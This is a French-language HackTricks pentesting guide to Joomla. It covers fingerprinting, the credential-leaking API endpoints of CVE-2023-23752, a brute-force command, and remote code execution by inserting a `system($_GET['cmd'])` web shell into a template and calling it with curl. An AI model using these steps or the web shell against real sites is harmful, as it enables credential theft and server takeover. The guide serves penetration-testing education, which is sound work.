 # Joomla

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Statistiques Joomla

Joomla collecte des [statistiques d'utilisation](https://developer.joomla.org/about/stats.html) anonymes telles que la répartition des versions de Joomla, PHP et des systèmes de gestion de bases de données ainsi que des systèmes d'exploitation de serveur utilisés sur les installations Joomla. Ces données peuvent être interrogées via leur [API](https://developer.joomla.org/about/stats/api.html) publique.
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* Vérifiez les **meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Version

* Dans **/administrator/manifests/files/joomla.xml**, vous pouvez voir la version.
* Dans **/language/en-GB/en-GB.xml**, vous pouvez obtenir la version de Joomla.
* Dans **plugins/system/cache/cache.xml**, vous pouvez voir une version approximative.

### Automatique
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - La méthodologie de pentesting Web est une section sur les scanners CMS**](./#cms-scanners) qui peuvent scanner Joomla.

### Divulgation d'informations non authentifiées via l'API :

Les versions de 4.0.0 à 4.2.7 sont vulnérables à la divulgation d'informations non authentifiées (CVE-2023-23752) qui va exposer des identifiants et d'autres informations.

* Utilisateurs : `http://<host>/api/v1/users?public=true`
* Fichier de configuration : `http://<host>/api/index.php/v1/config/application?public=true`

**Module MSF** : `scanner/http/joomla_api_improper_access_checks` ou script ruby : [51334](https://www.exploit-db.com/exploits/51334)

### Brute-Force

Vous pouvez utiliser ce [script](https://github.com/ajnik/joomla-bruteforce) pour tenter de forcer le login.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

Si vous parvenez à obtenir des **identifiants administratifs**, vous pouvez **RCE à l'intérieur** en ajoutant un extrait de **code PHP** pour obtenir **RCE**. Nous pouvons le faire en **personnalisant** un **modèle**.

1. **Cliquez** sur **`Templates`** en bas à gauche sous `Configuration` pour faire apparaître le menu des modèles.
2. **Cliquez** sur un nom de **modèle**. Choisissons **`protostar`** sous l'en-tête de colonne `Template`. Cela nous amènera à la page **`Templates: Customise`**.
3. Enfin, vous pouvez cliquer sur une page pour faire apparaître le **code source** de la page. Choisissons la page **`error.php`**. Nous ajouterons une **ligne de code PHP pour obtenir l'exécution de code** comme suit :
1. **`system($_GET['cmd']);`**
4. **Enregistrer & Fermer**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## De XSS à RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit) : Script d'exploitation Joomla qui **élève XSS à RCE ou d'autres vulnérabilités critiques**. Pour plus d'infos, consultez [**ce post**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). Il fournit **un support pour les versions Joomla 5.X.X, 4.X.X et 3.X.X, et permet de :**
* _**Élévation de privilèges :**_ Crée un utilisateur dans Joomla.
* _**(RCE) Édition de modèles intégrés :**_ Éditer des modèles intégrés dans Joomla.
* _**(Personnalisé) Exploits personnalisés :**_ Exploits personnalisés pour des plugins Joomla tiers.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

